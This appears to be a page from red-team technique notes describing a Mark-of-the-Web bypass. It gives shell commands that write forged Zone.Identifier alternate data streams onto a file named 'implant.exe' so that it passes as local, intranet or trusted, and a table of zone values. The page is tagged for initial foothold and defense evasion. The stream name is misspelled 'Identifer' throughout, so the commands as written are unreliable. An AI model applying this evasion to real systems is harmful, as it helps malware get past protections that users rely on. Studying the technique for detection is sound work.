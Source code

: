# 03 - Spoof ZoneTransfer (MOTW Bypass)

Search Tag(s): #initial-foothold #defense-evasion #windows #scenarios

```
$ echo -e "[ZoneTransfer]\nZoneId=0" > /mnt/ntfs/implant.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=1" > /mnt/ntfs/implant.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=2" > /mnt/ntfs/implant.exe:Zone.Identifer
```

Unmount the container.

```
$ sudo umount /mnt/ntfs/
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/02 - Defense Evasion/10 - Hide Artifacts/Alternate Data Streams (ADS)/Living off the Land|Windows: Hide Artifacts]]

- [Red Canary: Mark-of-the-Web Bypass](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)

- [SecurityLiterate.com: How Malware Abuses the Zone Identifier to Circumvent Detection and Analysis](https://securityliterate.com/how-malware-abuses-the-zone-identifier-to-circumvent-detection-and-analysis/)

### Table Reference

| Zone Identifier | Description                                                                                                           |
| :-------------: | --------------------------------------------------------------------------------------------------------------------- |
|        0        | File originates from the local machine. It has the least security restriction.                                        |
|        1        | File originated from the local intranet (local network). Both zone identifier 0 and 1 indicate a high level of trust. |
|        2        | Indicates the file was downloaded from a trusted site. This can spoofed by attackers by manipulating the ADS.         |
|        3        | Indicates the file was downloaded from the internet and it is generally untrusted.                                    |
|        4        | Indicates that the file came from a likely unsafe source.                                                             |
